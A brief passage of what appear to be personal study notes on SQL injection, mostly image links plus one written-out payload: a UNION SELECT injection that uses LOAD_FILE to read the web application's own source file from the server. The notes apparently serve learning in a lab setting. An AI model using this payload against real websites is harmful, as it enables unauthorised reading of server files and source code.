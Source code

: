 ![](Images/Pasted%20image%2020240129184613.png)

### Another example 

we can try to read the source code of the file that we are on with: 

`cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- `

![](Images/Pasted%20image%2020240129184752.png)
